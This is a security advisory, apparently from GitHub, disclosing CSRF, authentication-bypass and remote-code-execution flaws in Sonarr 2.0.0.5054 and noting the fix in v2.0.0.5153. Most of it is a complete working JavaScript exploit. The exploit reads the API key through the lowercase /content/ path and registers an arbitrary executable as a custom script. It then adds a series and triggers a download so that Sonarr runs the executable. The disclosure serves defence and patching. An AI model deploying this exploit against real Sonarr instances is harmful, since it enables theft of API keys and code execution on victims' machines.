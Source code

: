 # Web UI Vulnerabilities in Sonarr 2.0.0.5054

December 2017

[Sonarr](https://sonarr.tv/) is "a PVR for Usenet and BitTorrent users".

## CSRF (Cross-site Request Forgery)

The local web UI of Sonarr 2.0.0.5054 includes the user's API key in its
pages' HTML so that it can be included in XHR requests.

Sonarr checks for it to block cross-site requests to most URLs, but that
check can be bypassed because the pages are sent with the CORS header
`Access-Control-Allow-Origin: *`. That allows a website visited by the
user to forge a local request for one of Sonarr's pages and read the API
key from the response.

```Javascript
req = new XMLHttpRequest();
req.open('GET', 'http://localhost:8989/Content/', false);
req.send(null);
console.log(req.responseText.match(/\s+ApiKey\s*:.*/));
```

## Authentication Bypass

Sonarr has authentication disabled by default. Users can enable either
HTTP or form-based authentication, but both can be bypassed, even when
the user is logged out, due to a bug in
[RequestExtensions.cs](https://github.com/Sonarr/Sonarr/blob/v2.0.0.5054/src/NzbDrone.Api/Extensions/RequestExtensions.cs).

`RequestExtensions.cs` uses a case-insensitive comparison to decide
whether a URL points to static content and should be accessible without
authentication.

```C#
public static bool IsContentRequest(this Request request)
{
    return request.Path.StartsWith("/Content/", StringComparison.InvariantCultureIgnoreCase);
}
```

However,
[StaticResourceMapper.cs](https://github.com/Sonarr/Sonarr/blob/v2.0.0.5054/src/NzbDrone.Api/Frontend/Mappers/StaticResourceMapper.cs)
then decides whether the URL should be handled as static content using a
case-sensitive comparison.

```C#
public override bool CanHandle(string resourceUrl)
{
    return resourceUrl.StartsWith("/Content") ||
           resourceUrl.EndsWith(".js") ||
           resourceUrl.EndsWith(".css") ||
           (resourceUrl.EndsWith(".ico") && !resourceUrl.Equals("/favicon.ico")) ||
           resourceUrl.EndsWith(".swf");
}
```

A request with the path `/content/` rather than `/Content/` won't
require authentication, but also won't be handled as static content. The
response will have the `Access-Control-Allow-Origin: *` header and
include the API key, so the CSRF attack will work as it did before
enabling authentication.

This also allows attackers to read the API key of network-accessible
Sonarr instances without user interaction by requesting
`http://victim:8989/content/`. The attacker can then execute code
remotely by directly making the same API requests that are made with
CSRF in the exploit below.

## Fix

Fixed in
[v2.0.0.5153](https://github.com/Sonarr/Sonarr/releases/tag/v2.0.0.5153).
Thanks to @Taloth and @markus101 for getting this fixed extremely quickly and
thoroughly:
<https://github.com/Sonarr/Sonarr/commits?since=2017-12-07T00:00:00Z&until=2017-12-13T19:20:00Z>.
(The two later commits address a case-sensitivity issue similar to the one
above, which we missed in the initial fix.)

## Remote Code Execution

Sonarr can be configured to run a local executable after it starts
downloading a TV show. After obtaining the API key, a malicious website
can forge API requests that configure the path to an executable to run
and the arguments to pass it. It can then forge requests to download a
TV show, which will make Sonarr run the executable.

The given path can point to any executable and any arguments are
allowed, so code execution is straightforward. The executable will run
under the same user account as Sonarr.

Below is the full proof-of-concept/exploit. Tested with [Sonarr
2.0.0.5054](https://github.com/Sonarr/Sonarr/tree/v2.0.0.5054) in
Firefox.

```Javascript
// Get a Sonarr page and read the API key from the HTML.
const apiKeyReq = new XMLHttpRequest();
apiKeyReq.open('GET', 'http://localhost:8989/cOnTeNt/', false);

try {
    apiKeyReq.send(null);
} catch (e) {
    document.write(e + '<br><br>');
}

// Find "ApiKey     : 'abcdef0123456789abcdef0123456789'".
const apiKey =
    apiKeyReq.responseText.match(/\s+ApiKey\s*:\s*'([a-f0-9]*)'/)[1];

document.write('API key: ' + apiKey + '<br><br>');

// Makes a CSRF POST request to the Sonarr API.
const post = (apiEndpoint, body) => {
    const req = new XMLHttpRequest();
    const url = 'http://localhost:8989/api/' + apiEndpoint +
                '?apikey=' + apiKey;

    req.open('POST', url, false);

    req.setRequestHeader('X-Api-Key', apiKey);
    req.setRequestHeader('X-Requested-With', 'XMLHttpRequest');
    req.setRequestHeader('Content-Type', 'application/json');

    try {
        req.send(JSON.stringify(body));
    } catch (e) {
        document.write(e + '<br><br>');
    }

    if (req.status === 200 || req.status === 201) { // HTTP 201: Created
        document.write('Response:<pre>' + req.responseText +
                       '</pre><br>');
        return req.responseText;
    } else {
        document.write('Request to ' + url + ' failed: ' + req.status +
                       ' ' + req.statusText + '<br><br>');
        return null;
    }
};

// Set Sonarr to launch calc.exe after downloading an episode.
const calc = (() => {
    if (navigator.appVersion.indexOf('Win') !== -1) {
        // Haven't tested this.
        return 'C:\\Windows\\System32\\calc.exe';
    } else if (navigator.appVersion.indexOf('Mac') !== -1) {
        return '/Applications/Calculator.app/Contents/MacOS/Calculator';
    } else {
        return prompt('Path to a local executable to run:');
    }
})();

document.write('Adding ' + calc +
               ' as a post-processing script.<br><br>');

post('notification',
     {
         onGrab: true,
         onDownload: true,
         onUpgrade: true,
         onRename: true,
         supportsOnGrab: true,
         supportsOnDownload: true,
         supportsOnUpgrade: true,
         supportsOnRename: true,
         tags: [],
         name: 'CalculatorForRCE' + Math.random(),
         fields: [
             {
                 order: 0,
                 name: 'Path',
                 label: 'Path',
                 type: 'filepath',
                 advanced: false,
                 value: calc
             },
             {
                 order: 1,
                 name: 'Arguments',
                 label: 'Arguments',
                 helpText: 'Arguments to pass to the script',
                 type: 'textbox',
                 advanced: false,
                 value: ''
             }
         ],
         implementationName: 'Custom Script',
         implementation: 'CustomScript',
         configContract: 'CustomScriptSettings',
         infoLink: 'http://example.com',
         presets: []
     });

// Add a show so we can try to trigger a download.
document.write('Adding a TV show. (The West Wing.)<br><br>');

const seriesResp =
    post('series',
         {
             tvdbId: 72521,
             title: 'The West Wing',
             qualityProfileId: 1,
             titleSlug: 'the-west-wing',
             images: [],
             monitored: false,
             seasons: [],
             path: ((navigator.appVersion.indexOf('Win') !== -1) ?
                   'C:\\' : '/tmp')
         });

// Download something so Sonarr will run the executable.
document.write('Downloading an episode.<br><br>');

try {
    // Get the ID of an episode.
    const episodeReq = new XMLHttpRequest();
    const seriesID = JSON.parse(seriesResp)['id'];

    let episodeResp = null;

    while (!episodeResp || episodeResp === '[]') {
        episodeReq.open('GET',
                        'http://localhost:8989/api/episode?apikey=' +
                        apiKey + '&seriesId=' + seriesID,
                        false);
        episodeReq.send(null);
        episodeResp = episodeReq.responseText;
    }

    const episodeID = JSON.parse(episodeResp)[55]['id'];

    // Tell Sonarr to download the episode.
    const success = post('command',
                         {
                             name: 'episodeSearch',
                             episodeIds: [episodeID]
                         });

    if (success) {
        document.write('Seems like it might have worked. There\'ll ' +
                       'be a short delay while Sonarr starts ' +
                       'downloading the episode.');
    }
} catch (e) {
    document.write(e);
}
```

